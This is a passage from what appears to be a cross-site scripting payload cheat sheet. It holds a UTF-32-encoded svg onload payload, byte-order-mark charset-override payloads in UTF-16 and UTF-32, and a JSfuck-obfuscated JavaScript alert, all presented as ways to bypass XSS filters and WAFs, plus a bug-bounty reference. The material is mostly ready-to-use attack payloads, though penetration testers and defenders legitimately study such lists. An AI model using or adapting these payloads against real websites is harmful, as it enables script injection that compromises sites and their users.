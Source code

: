 ```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

## Bypass using BOM

Byte Order Mark (The page must begin with the BOM character.)
BOM character allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```


## Bypass using JSfuck

Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```


## References

- [Airbnb – When Bypassing JSON Encoding, XSS Filter, WAF, CSP, and Auditor turns into Eight Vulnerabilities - Brett Buerhaus (@bbuerhaus) - March 8, 2017](https://buer.haus/2017/03/08/airbnb-when-bypassing-json-encoding-xss-filter-waf-csp-and-auditor-turns-into-eight-vulnerabilities/)